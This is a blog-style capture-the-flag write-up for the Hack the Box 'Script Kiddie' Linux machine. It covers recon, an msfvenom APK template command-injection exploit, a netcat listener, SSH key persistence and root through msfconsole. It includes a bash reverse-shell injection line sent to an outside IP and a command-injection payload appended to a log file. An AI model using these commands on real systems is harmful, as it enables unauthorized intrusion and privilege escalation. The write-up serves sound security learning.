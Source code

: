 +++
author = "Nick"
categories = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
date = 2021-06-05T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/05/scriptkiddie.png"
slug = "script-kiddie"
summary = "Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!"
tags = ["hack the box", "Linux", "netcat", "ssh-keygen", "metasploit"]
title = "Hack the Box - Script Kiddie"

+++


Welcome back everyone! Today we are going to do the Hack the Box machine Script Kiddie. This is a Linux machine rated as easy. Let's jump in!

As always, we kick of our scans with `nmap` - `nmap -sC -sV -p- -oA allscan 10.10.10.226`.

Here are our results:
```
Nmap scan report for 10.10.10.226
Host is up (0.049s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)| ssh-hostkey:|   3072 3c:65:6b:c2:df:b9:9d:62:74:27:a7:b8:a9:d3:25:2c (RSA)|   256 b9:a1:78:5d:3c:1b:25:e0:3c:ef:67:8d:71:d3:a3:ec (ECDSA)|_  256 8b:cf:41:82:c6:ac:ef:91:80:37:7c:c9:45:11:e8:43 (ED25519)5000/tcp  open     http    Werkzeug httpd 0.16.1 (Python 3.8.5)|_http-server-header: Werkzeug/0.16.1 Python/3.8.5|_http-title: k1d'5 h4ck3r t00l559012/tcp filtered unknownService Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There isn't much to go with. We see a webserver on port 5000 and that's about it. Let's take a look.

{{< figure src="__GHOST_URL__/content/images/2021/04/image.png" >}}

We see a basic hacking tool interface. We can scan an IP address or create payloads. We have the ability to upload a payload template as well. We test out the page and sure enough it does generate some payloads. Some googling around leads us [here](https://github.com/justinsteven/advisories/blob/master/2020_metasploit_msfvenom_apk_template_cmdi.md). A MSF Venom template CVE and PoC.

We can find this template in `Metasploit`. If we search for `template` in `MSF` we see the module:

{{< figure src="__GHOST_URL__/content/images/2021/04/image-1.png" >}}

We list out our `options`. We have pretty much the basics, an `lport` and `lhost`.

{{< figure src="__GHOST_URL__/content/images/2021/04/image-2.png" >}}

We'll add our IP and port and generate the payload.

{{< figure src="__GHOST_URL__/content/images/2021/04/image-4.png" >}}

We can even do the following to spin up an automatic payload handler within `MSF` if we want. I often do this, but in this case, we'll use `netcat`.

Command:
`msf6> set DisablePayloadHandler false`

Running the exploit shows us the path the file is saved. We'll copy out the payload and upload it to our web interface we found before. We also need to have a listener running.

Command:
`nc -lvnp 4444`

We can then set our localhost on the website to 127.0.0.1 and the platform to android.

{{< figure src="__GHOST_URL__/content/images/2021/05/image.png" >}}

Once we hit generate, we should catch a connection back.

{{< figure src="__GHOST_URL__/content/images/2021/05/image-1.png" >}}

Now we want to upgrade this shell. First, we check for `Python` and `Python3`.

Commands:
`which python`
`which python3`

{{< figure src="__GHOST_URL__/content/images/2021/05/image-2.png" >}}

We see `Python3` installed so we'll [upgrade our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) with that.

Command:
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Now with a better shell connection, we can look around. This account does contant the `user.txt` flag, awesome! Now we can start enumerating for the `root.txt` flag. 

Next we want to find a better way tro stay connected. We can append our `ssh key` to the `authorized_keys` file for this user. First we'll want to make a new key with `ssh-keygen`.

Command:
`ssh-keygen`

We can copy the `id_rsa.pub` content into the `authorized_keys` file. Now we can just `ssh` into the box.

Command:
`ssh -i id_rsa kid@10.10.10.226`

Now that w're in, we don't even have to load `linenum.sh` or any other enumeration tools. We are able to manually access the `pwn` user account and freely look around to start.

Inside the `pwn` user account, we see a file called `scanlosers.sh` with the following code:

```bash
#!/bin/bash

log=/home/kid/logs/hackers

cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
    sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done

if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
```

Can you spot the problem with this script? That's right, we can command injection into this. After some trial and error we find a command we can append the the `hackers` file to get a shell back.

Command:
`echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.116/1234 0>&1' #" >> hackers`

We quickly see the shell returned as `pwn`.

{{< figure src="__GHOST_URL__/content/images/2021/05/image-3.png" >}}

However, `pwn` cannot access `root.txt`. So we need to look around some more. Basic enumeration shows us that we can run `msfconsole` as root.

{{< figure src="__GHOST_URL__/content/images/2021/05/image-4.png" >}}

Awesome, let's do that. When the console loads, we get a bunch of ioctl errors but when we check our ID, we are running as `root`.

{{< figure src="__GHOST_URL__/content/images/2021/05/image-5.png" >}}

Now we can simply cat the `root.txt` flag!

{{< figure src="__GHOST_URL__/content/images/2021/05/image-6.png" >}}

A nice easy box with some required research and trial / error.

If you found this write-up useful, send some respect my way:
https://app.hackthebox.eu/profile/95635



